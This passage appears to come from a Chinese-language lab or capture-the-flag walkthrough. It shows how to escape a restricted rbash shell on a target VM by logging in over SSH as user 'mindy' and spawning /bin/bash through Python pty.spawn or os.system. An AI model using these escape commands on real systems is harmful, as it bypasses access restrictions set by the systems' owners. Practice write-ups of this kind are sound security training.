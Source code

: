 使用`help`测试可用命令，发现有`export`，那么测试有哪些

![](./pic/21.jpg)

然后使用`readonly -p`查看可读的变量，发现`term`是可以修改的

![](./pic/22.jpg)

那么尝试在使用`ssh`连接的时候，修改`term`，然后执行一下，是否可以在连接时候执行`python`，使得绕过`rbash`

```shell
ssh mindy@192.168.10.8 -t "export TERM=xterm; python -c 'import pty;pty.spawn(\"/bin/bash\")'"

ssh mindy@192.168.10.8 -t "export TERM=xterm; python -c 'import os;os.system(\"/bin/bash\")'"
```



![](./pic/23.jpg)
